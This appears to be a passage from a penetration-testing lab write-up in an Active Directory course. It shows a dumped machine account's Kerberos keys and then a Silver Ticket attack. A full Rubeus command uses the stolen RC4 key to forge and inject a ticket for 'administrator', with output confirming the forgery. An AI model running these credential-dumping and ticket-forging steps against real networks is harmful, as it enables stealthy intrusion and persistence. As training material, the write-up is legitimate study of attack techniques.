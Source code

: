 ```
Session           : UndefinedLogonType from 0
User Name         : MGMTSRV$👤
Domain            : TECH
Logon Server      : (null)
Logon Time        : 3/11/2025 5:54:34 AM
SID               : S-1-5-18

         * Username : mgmtsrv$
         * Domain   : TECH.FINANCE.CORP
         * Password : (null)
         * Key List :
           aes256_hmac       e88b558cf0e531fd9cff56c8db3b24ce6784e62e5b2f9cb807b5afa9dfed2fa7🔑
           rc4_hmac_nt       207218a0920d00bbbd4daa22f6e767d3
           rc4_hmac_old      207218a0920d00bbbd4daa22f6e767d3
           rc4_md4           207218a0920d00bbbd4daa22f6e767d3
           rc4_hmac_nt_exp   207218a0920d00bbbd4daa22f6e767d3
           rc4_hmac_old_exp  207218a0920d00bbbd4daa22f6e767d3

[SNIP]
```
🚩

---

### Domain Persistence | Silver Ticket (with Rubeus)

6) **Silver Ticket Attack for Domain Persistence** (successful ✅)

Description: Leveraged the **RC4 Kerberos key** extracted from `mgmtsrv` to forge a **Silver Ticket** for the `http/mgmtsrv.tech.finance.corp` service. The ticket was generated using `Rubeus` and injected into the current session, granting **administrator-level access** to `mgmtsrv` **without requiring authentication from the Domain Controller**. This technique enables **persistence and stealthy access** to the target machine, bypassing standard Kerberos authentication mechanisms.

![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/mgmtsrv.tech.finance.corp /rc4:207218a0920d00bbbd4daa22f6e767d3 /sid:S-1-5-21-1325336202-3661212667-302732393 /ldap /user:administrator /domain:tech.finance.corp /ptt`:
```
[SNIP]

[*] Action: Build TGS📌

[SNIP]

[*] Domain         : TECH.FINANCE.CORP🏛️ (TECH)
[*] SID            : S-1-5-21-1325336202-3661212667-302732393
[*] UserId         : 1109
[*] Groups         : 513
[*] ServiceKey     : 207218A0920D00BBBD4DAA22F6E767D3
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 207218A0920D00BBBD4DAA22F6E767D3
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : http📌
[*] Target         : mgmtsrv🖥️.tech.finance.corp

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'administrator'🎭 to 'http/mgmtsrv.tech.finance.corp'

```